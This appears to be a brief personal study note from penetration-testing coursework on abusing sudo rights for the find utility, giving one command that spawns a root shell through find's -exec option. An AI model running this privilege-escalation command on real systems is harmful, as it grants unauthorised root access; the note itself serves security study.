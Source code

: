 # Exploiting "find"

author:: Nathan Acks  
date:: 2022-04-21

If `find` can be run with `sudo`, then try `sudo find . -exec /bin/sh \; -quit`.

## References

* [2022-04-20 - ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-04-20-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)

